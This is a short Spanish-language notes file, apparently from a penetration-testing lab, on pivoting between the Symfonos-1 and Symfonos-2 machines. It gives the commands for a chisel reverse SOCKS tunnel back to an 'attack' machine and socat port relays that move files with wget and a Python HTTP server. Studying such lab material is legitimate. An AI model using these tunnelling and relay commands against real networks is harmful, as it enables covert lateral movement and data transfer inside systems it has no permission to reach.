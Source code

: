 
# EJEMPLO

```python
---------------------------------------------------------------------------------------------------------------------------------------
	*Enviar archivos desde maquina Symfonos-2 > Maquina Attack | Maquina Attack > Symfonos-2*
---------------------------------------------------------------------------------------------------------------------------------------

>tener establecido el canal de chisel servidor - cliente

	*Maquina Attack*
	./chisel server --reverse -p 8000	

	*Symfonos-1*
	./chisel client 10.0.2.4:8000 R:socks

---------------------------------------------------------------------------------------------------------------------------------------
	
	*Servidor Python: el servidor debe estar a la escucha en el mismo puerto donde se hace la conexion con socat*
	python3 -m http.server 6666

	*Maquina Symfonos-1*
	./socat TCP-LISTEN:1331,fork TCP:10.0.2.4:6666

	*abrimos un puerto en la maquina Symfonos-1 (1331) y vamos a enviar todo lo que llegue a ese puerto hacia el servidor de Python*

	*Maquina Symfonos-2*
	wget http://10.2.2.6:1331/archivo

---------------------------------------------------------------------------------------------------------------------------------------

	*Maquina Attack*
	wget http://10.0.2.5:1441/archivo

	*Maquina Symfonos-1*
	./socat TCP-LISTEN:1441,fork TCP:10.2.2.7:9999

	*abrimos un puerto en la maquina Symfonos-1 (1441) y vamos a enviar todo lo que llegue a ese puerto hacia el servidor de Python*

	python3 -m http.server 9999
```


[GraficoPivoting](obsidian://open?vault=ObsidianGIT&file=Excalidraw%2FPivoting.excalidraw) 
